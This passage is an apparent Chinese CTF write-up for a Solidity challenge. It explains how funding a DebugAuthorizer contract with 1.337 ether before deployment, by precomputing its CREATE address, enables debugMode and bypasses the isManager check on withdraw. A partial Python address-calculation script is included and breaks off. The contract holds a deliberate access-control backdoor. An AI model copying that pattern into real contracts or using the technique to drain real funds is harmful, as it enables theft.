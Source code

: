```
        // Anyone can add to the fund    
    `}`

    function addFundManager(address _newManager) external isManager ctf`{`
        fundManagerEnabled[_newManager] = true;
    `}`

    function removeFundManager(address _previousManager) external isManager ctf`{`
        fundManagerEnabled[_previousManager] = false;
    `}`

    function withdraw() external isManager ctf`{`
        msg.sender.transfer(address(this).balance);
    `}`
`}`
```

题目主要目标是调用 withdraw 但是每个函数都是需要我们的 isManager 修饰器，以及 ctf 修饰器，ctf修饰器就是我们的ctf_challenge函数即可。

但是isManager可以看到

```
modifier isManager() `{`
        require(fundManagerEnabled[msg.sender] || debugAuthorizer.debugMode() || msg.sender == developer, "Unauthorized: Not a Fund Manager");
         _;
    `}`
```

但是我们最开始不可能操作的是fundManager 和 msg,sender.

只有这个debug 是可能使用的。

```
contract DebugAuthorizer`{`

    bool public debugMode;

    constructor() public payable`{`
        if(address(this).balance == 1.337 ether)`{`
            debugMode=true;
        `}`
    `}`
`}`
```

可以发现 只要我们 提前往这个合约里面转账1.337 eth 我们就可以开启debug mode 从而实现任意给予权限 来提出余额。

所以这里考点就是 create的计算方式。

```
import rlp
from ethereum import utils
address = 0x6c6cabbbbfee4ecd2a3f68d427883975bdb36a3a
def calc(i):
    nonce=i
    rlp_res = rlp.encode([address, nonce])
   # print(rlp_res)
    sha3_res = utils.mk_contract_address(address, nonce)
    #print(sha3_res)
    sha3_res_de = utils.decode_addr(sha3_res)
    print("contract_address: " + sha3_res_de)


def hack(mubiao):
    for i in range(0,500000):
        nonce=i
        rlp_res = rlp.encode([address,nonce])
```